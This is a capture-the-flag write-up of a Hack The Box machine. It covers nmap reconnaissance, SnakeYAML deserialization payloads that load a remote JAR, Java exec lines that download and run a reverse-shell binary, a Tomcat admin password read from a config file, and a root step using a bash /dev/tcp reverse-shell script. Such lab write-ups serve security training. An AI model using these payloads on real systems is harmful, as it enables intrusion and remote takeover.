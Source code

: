 # Box 



![image-20210316084504822](img/image-20210316084504822.png)

https://www.hackthebox.eu/home/machines/profile/315

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.227 10.10.10.227
```

![image-20210316084527782](img/image-20210316084527782.png)

Let's what we have on the website : 

![image-20210316143228296](img/image-20210316143228296.png)

An online Yaml parser.  When you type anything you have a page with an error : 

![image-20210316143419695](img/image-20210316143419695.png)

Then, let's intercept  the request  with burp: 

![image-20210316143354039](img/image-20210316143354039.png)

I changed the `data=value` to something else like `test=value` and got an error : 

![image-20210316143653464](img/image-20210316143653464.png)

## Exploitation

By searching for "yaml stream reader exploit" I found an exploit for SnakeYaml Deserilization  : 

https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

I modified their payload to : 

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.17/"]
  ]]
]
```

and it works ! 

![image-20210316143837098](img/image-20210316143837098.png)

Let's try to get a RCE.

After a few tries I didn't get a RCE right away so I used another method. 

I used this repo : https://github.com/artsploit/yaml-payload

It took me a long time to find the good RCE but finally I created a payload with msfvenom and then downloaded and executed it in 3 lines :

```java
Runtime.getRuntime().exec("wget http://10.10.14.17/rev_shell.elf -O /tmp/test");
Runtime.getRuntime().exec("chmod +x /tmp/rev_shell.elf");
Runtime.getRuntime().exec("/tmp/rev_shell.elf");
```

the payload  for the website input is a bit different : 

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.17/yaml-payload.jar"]
  ]]
]
```



![image-20210316154800623](img/image-20210316154800623.png)

We are the tomcat user

## Post-Exploitation

### User

I went forward to the configurations files of tomcat and found the `tomcat-users.xml` in `/opt/tomcat/conf/`  file with the credential of admin 

![image-20210316161501082](img/image-20210316161501082.png)

```bash
admin:whythereisalimit
```

![image-20210316161535148](img/image-20210316161535148.png)

### Root

Let's do the traditional `sudo -l`:

![image-20210316161634509](img/image-20210316161634509.png)

So, we have a script used in sudo. 

![image-20210316171127388](img/image-20210316171127388.png)

First, let's run it. 

![image-20210316171631823](img/image-20210316171631823.png)

We have an error so it does mean that in the if condition `f != 1` 

We can see that there are multiple place where there is no absolute path. 

With this link  https://webassembly.github.io/wabt/demo/wasm2wat/index.html  you can upload your `main.wasm` file and see what's inside : 

![image-20210316171323142](img/image-20210316171323142.png)

In our script we need a value equal to 1 so let's change `  (i32.const 0))` to `  (i32.const 1))` 

Now you can paste your new code and download your new main.wasm here : 

https://webassembly.github.io/wabt/demo/wat2wasm/index.html

Upload the file, and run your sudo command. 

![image-20210316171516166](img/image-20210316171516166.png)

Seems good. Now we can also see that's the `deploy.sh` file doesn't have an absolute path. Let's create our own script. 

```bash
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'
```

![image-20210316171824580](img/image-20210316171824580.png)

Rooted.